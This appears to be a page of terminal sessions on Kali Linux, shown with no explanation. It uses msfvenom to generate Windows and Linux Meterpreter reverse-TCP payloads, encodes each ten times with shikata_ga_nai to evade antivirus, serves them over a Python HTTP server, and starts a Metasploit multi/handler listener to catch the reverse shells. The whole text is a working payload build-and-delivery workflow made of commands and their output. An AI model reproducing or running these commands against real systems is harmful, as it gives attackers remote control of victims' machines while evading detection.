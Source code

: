 ```
┌──(root㉿kali)-[~/payloads/Windows_Payloads]
└─# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.248.148 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe > encodedx86.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 10 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai succeeded with size 408 (iteration=1)
x86/shikata_ga_nai succeeded with size 435 (iteration=2)
x86/shikata_ga_nai succeeded with size 462 (iteration=3)
x86/shikata_ga_nai succeeded with size 489 (iteration=4)
x86/shikata_ga_nai succeeded with size 516 (iteration=5)
x86/shikata_ga_nai succeeded with size 543 (iteration=6)
x86/shikata_ga_nai succeeded with size 570 (iteration=7)
x86/shikata_ga_nai succeeded with size 597 (iteration=8)
x86/shikata_ga_nai succeeded with size 624 (iteration=9)
x86/shikata_ga_nai chosen with final size 624
Payload size: 624 bytes
Final size of exe file: 73802 bytes
```

```
┌──(root㉿kali)-[~/payloads/Linux_Payloads]
└─# msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.248.148 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f elf > encodedx86
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 10 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 150 (iteration=0)
x86/shikata_ga_nai succeeded with size 177 (iteration=1)
x86/shikata_ga_nai succeeded with size 204 (iteration=2)
x86/shikata_ga_nai succeeded with size 231 (iteration=3)
x86/shikata_ga_nai succeeded with size 258 (iteration=4)
x86/shikata_ga_nai succeeded with size 285 (iteration=5)
x86/shikata_ga_nai succeeded with size 312 (iteration=6)
x86/shikata_ga_nai succeeded with size 339 (iteration=7)
x86/shikata_ga_nai succeeded with size 366 (iteration=8)
x86/shikata_ga_nai succeeded with size 393 (iteration=9)
x86/shikata_ga_nai chosen with final size 393
Payload size: 393 bytes
Final size of elf file: 477 bytes
```

```
┌──(root㉿kali)-[~/payloads/Windows_Payloads]
└─# python2 -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

```
┌──(root㉿kali)-[~]
└─# msfconsole -q
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.248.148
LHOST => 192.168.248.148
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.248.148:1234 
```